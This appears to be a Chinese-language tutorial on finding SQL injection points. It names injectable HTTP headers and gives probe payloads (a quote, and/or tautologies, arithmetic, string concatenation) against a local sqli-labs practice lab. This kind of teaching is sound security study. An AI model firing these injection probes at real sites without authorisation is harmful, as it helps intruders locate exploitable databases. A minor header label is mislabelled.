

在http请求中sql注入点通常存在在get，post请求中。但是有几个地方也不能忽略，如：

cookie:识别用户的唯一标识

主机头：指定请求资源的internet主机和端口号

引用站点头（host)：指定获取当前请求的资源

用户代理头（user-agent)：确定用户使用的web浏览器。

服务端有很大可能将这些数据存入数据库中。攻击者可以将这些数据篡改为攻击语句。是服务器存入数据库。

# 1.” ’ ”(单引号）

get请求我们通常在后面添加一个“ ‘ "来判断其存不存在sql注入

例如：http://127.0.0.1/sql-labs/Less-1/?id=1’

服务器报错，并把错误信息返回到网页上面。根据错误信息，判断这里大概率存在注入点。

# 2.and

构造更多的参数来判断。

http://127.0.0.1/sql-labs/Less-1/?id=1‘and'1'='1  (正常页面）

http://127.0.0.1/sql-labs/Less-1/?id=1‘and'1'='2  （非正常页面）

通过两个连接返回的页面不同，说明服务端以执行我们构造的sql语句。这里存在sql注入。

# 3.or

http://127.0.0.1/sql-labs/Less-1/?id=1'or'1'='1

http://127.0.0.1/sql-labs/Less-1/?id=2'or'1'='1

两个连接返回的页面相同，说明or1=1永真条件在服务器执行了。所以返回默认的第一个用户信息。

# 4.+- （运算符）

这里需要注意区分数字型注入和字符型注入。

## 4.1 数字型注入

http://127.0.0.1/sql-labs/Less-2/?id=2

http://127.0.0.1/sql-labs/Less-2/?id=3-1

两个连接返回同一个相同的页面，说明3-1在服务器执行了，所以返回id=2的页面

4.2字符型注入

uname=ad' 'min&passwd=adm' 'in&submit=Submit

 成功登陆说明服务端没有对输入 数据做限制，并且还允许字符串拼接。存在sql注入可能。

